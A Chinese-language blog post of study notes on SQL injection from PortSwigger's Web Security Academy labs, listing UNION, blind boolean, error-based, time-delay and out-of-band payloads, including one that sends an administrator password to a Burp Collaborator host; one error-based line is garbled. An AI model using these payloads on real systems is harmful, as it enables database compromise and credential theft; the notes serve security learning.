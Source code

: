 ```yaml
---
layout: article
title: SQL injection--Web Security Academy 1
mathjax: true
key: a00002	
mode: immersive
header:
  theme: dark
article_header:
  type: overlay
  theme: dark
  background_color: '#203028'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
    src: /docs/assets/images/cover3.jpg
---
```


## 前言

最近学习实践的过程深感自己基础的不足和英语水平的匮乏，正好又找到一个很好的学习网站（https://portswigger.net/web-security/learning-path 既有知识点也有相应的靶场，唯一的缺点就是全英文的），于是想借此重新打一遍web安全基础，并提高自己的英语水平，目前已经学习了XXE，SQL注入和Authentication部分，正在看OAuth的部分，今天先给出SQL injection 学习过程中的笔记，供分享与备忘。

Web Security Academy 分了如下5个点来介绍SQL注入，如下：

## 1.Retrieving hidden data

- where you can modify an SQL query to return  additional results.

  +是拼接字符串的；

  --是SQL的注释标记

## 2.Subverting application logic

- where you can change a query to interfere with the application's logic.

## 3.UNION attacks

- where you can retrieve data from different database tables.

### 两个条件：

1. The individual queries must return the **same number of columns**.
2. The **data types** in each column must **be compatible** between the individual queries.

​               `( 'UNION SELECT 'a',NULL,NULL,NULL--)`

### 	猜columns：

```sql
order by *num --
union select NULL,NULL --
```

There is a built-in table on Oracle called **DUAL** which can be used for this purpose. 
So the injected queries on Oracle would need to look like: 

```sql
UNION SELECT NULL FROM DUAL--
```

### Retrieving multiple values within a single column

```sql
concat(username,':',password)
username||'~'||password
```

## 4.Examining the database

- where you can extract information about the version and structure of the database.

#### Oracle

- On Oracle databases, every SELECT statement must specify a table to select FROM

  There is a built-in table on Oracle called dual which you can use for this purpose. For example: 

```sql
UNION SELECT 'abc' FROM dual
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Listing the contents of the database

#### EXCEPT Oracle

```sql
'+union+select+table_name,NULL+from+information_schema.tables--+
'+union+select+column_name,NULL+from+information_schema.columns+where+table_name='pg_user'--+
'+union+select+usename,passwd+from+pg_user--+
```

#### Oracle

```sql
'+union+select+NULL,NULL+from+dual--+
'+union+select+NULL,NULL+from+all_tables--+
'+union+select+table_name,NULL+from+all_tables--+
'+union+select+column_name,NULL+from+all_tab_columns+where+table_name='USERS_QCCECD'--+
'+union+select+USERNAME_WMJDSJ,PASSWORD_MPFXMQ+from+USERS_QCCECD--+
```

### 5.Blind SQL injection, 

- where the results of a query you control are not returned in the application's responses

#### Exploiting blind SQL injection by triggering conditional responses（Boolean）

```sql
TrackingId=xyz' AND '1'='1  	--验证
TrackingId=xyz' AND '1'='2  	--确定显示不同
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  	--确定数据表
--confirming that there is a user called administrator.
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  	
--确定字段长度
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  	
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a   	

```

#### Inducing conditional responses by triggering SQL errors（报错）

```sql
TrackingId=xyz'    	--verify the vulnerability 
TrackingId=xyz''    --error disappears
TrackingId=xyz'||(SELECT '')||'   --still error ,might be oracle
TrackingId=xyz'||(SELECT '' FROM dual)||'     --confirm oracle
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'	 --table confirmed
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' --error message is received
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'		
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'		--verify table
--username verified
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'	
-get the info
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

#### Exploiting blind SQL injection by triggering time delays

| **Oracle**     | dbms_pipe.receive_message(('a'),10) |
| -------------- | ----------------------------------- |
| **Microsoft**  | WAITFOR  DELAY '0:0:10'             |
| **PostgreSQL** | SELECT  pg_sleep(10)                |
| **MySQL**      | SELECT  sleep(10)                   |

example ：  `'||SELECT sleep(10)--`  

**分号**用 <font color="red">%3B</font>

```sql
'%3Bselect case when (1=1) then pg_sleep(10) else pg_sleep(0) end--

'%3Bselect case when (username='administrator') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (username='administrators') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (length(password)>20) then pg_sleep(5) else pg_sleep(0) end from users where username='administrator'--

'%3Bselect case when (substr(password,1,1)='a') then pg_sleep(2) else pg_sleep(0) end from users where username='administrator'--
```

#### Exploiting blind SQL injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

##### oracle（ combined with xxe）example：

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//dp61vdo4svrlp985ts0r562e95fw3l.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

retrive data

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.kym84kxb120syghc2z9yedblico4ct.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### SQL injection cheat sheet

链接包含常见不同数据库的绕过方法

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)